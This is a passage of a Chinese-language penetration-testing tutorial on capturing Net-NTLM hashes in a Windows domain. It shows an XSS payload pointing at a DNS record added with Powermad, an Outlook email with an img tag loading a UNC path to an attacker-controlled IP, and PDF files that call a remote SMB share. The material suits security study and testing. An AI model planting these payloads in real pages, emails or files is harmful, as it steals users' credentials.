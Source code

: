 ![image-20191121145446352](https://p3.ssl.qhimg.com/t0156594bf19f92141b.png)

认证用户都可以在DNS里面创建子对象，也就意味着如果我们是域内认证 用户的话，那我们就可以在域内添加域名。我们使用在kerberos篇里面提到过的Powermad里面的Invoke-DNSUpdate添加一条DNS记录

![image-20191121134813065](https://p1.ssl.qhimg.com/t010acabe37759199fa.png)

然后将我们的payload 换成

```markup
<script  src="//xss\xss"></script>
```

由于此时的域名位于企业内部网，所以当用户触发xss的时候会以当前用户去认证，我们也就能拿到用户的net-ntlm hash。

![image-20191121151332180](https://p3.ssl.qhimg.com/t01fdbc50b54c937fa6.png)

## 0x04 outlook

发送邮件是支持html的，而且outlook里面的图片加载路径又可以是UNC。于是我们构造payload

```markup
<img src="\\172.16.100.1\outlook">
```

![image-20191122110302911](https://p4.ssl.qhimg.com/t017426b6c5935ad70f.png)

当收件人打开outlook查看邮件的时候

![image-20191122101323891](https://p2.ssl.qhimg.com/t01d0355f58c5bfc88e.png)

我们就收到net-ntlm hash了

![image-20191122101443264](https://p2.ssl.qhimg.com/t0149fd2b4bead9a8cb.png)

## 0x05 PDF

PDF规范允许为GoTobe和GoToR条目加载远程内容。PDF文件可以添加一项功能，请求远程SMB服务器的文件。我们直接使用三好学生的脚本[https://github.com/3gstudent/Worse-PDF](https://github.com/3gstudent/Worse-PDF)

![image-20191121175034419](https://p0.ssl.qhimg.com/t014e210fc585268122.png)

我们就收到net-ntlm hash

![image-20191121175116135](https://p3.ssl.qhimg.com/t013049dfc7f0793e76.png)

用户使用PDF阅读器打开，如果使用IE或是Chrome打开PDF文件，并不会执行。

在实际测试中使用Adobe

![image-20191121175715381](https://p5.ssl.qhimg.com/t017860f464c5a4b9c9.png)

发现会有提示

![image-20191121175838786](https://p1.ssl.qhimg.com/t01a7438060c6b7fcad.png)
